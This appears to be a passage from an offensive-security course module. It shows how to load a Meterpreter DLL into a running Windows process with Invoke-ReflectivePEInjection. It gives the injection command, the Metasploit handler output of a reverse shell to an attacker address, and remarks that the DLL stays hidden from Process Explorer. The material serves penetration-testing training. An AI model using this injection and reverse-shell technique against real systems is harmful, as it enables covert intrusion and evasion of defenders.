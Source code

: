 > Listing 27 - Importing Invoke-ReflectivePEInjection

Next, we'll supply the byte array (**-PEBytes**) and process ID (**-ProcId**) to execute the script.

```
PS C:\Users\offsec> Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

> Listing 28 - Executing Invoke-ReflectivePEInjection

This loads the DLL in memory and provides us with a reverse Meterpreter shell:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 29 - Getting a reverse shell

This script produces an error, as shown below. This does not affect the functionality of the script and can be ignored.

```
VoidFunc couldn't be found in the DLL
At C:\Tools\Invoke-ReflectivePEInjection.ps1:2823 char:5
+                 Throw "VoidFunc couldn't be found in the DLL"
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (VoidFunc couldn't be found in the DLL:String) [], RuntimeException
    + FullyQualifiedErrorId : VoidFunc couldn't be found in the DLL
```

> Listing 30 - Error when executing Invoke-ReflectivePEInjection

Note that the public version of this script fails on versions of Windows 10 1803 or newer due to the multiple instances of _GetProcAddress_ in _UnsafeNativeMethods_. Luckily, we have already solved this issue previously and the version of the script located on the Windows 11 vm has been updated to avoid this.

We'll also observe that **met.dll** is not shown in the loaded DLL listing of Process Explorer. Excellent!

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Process Injection - Client01 - VM #4

**Labs**
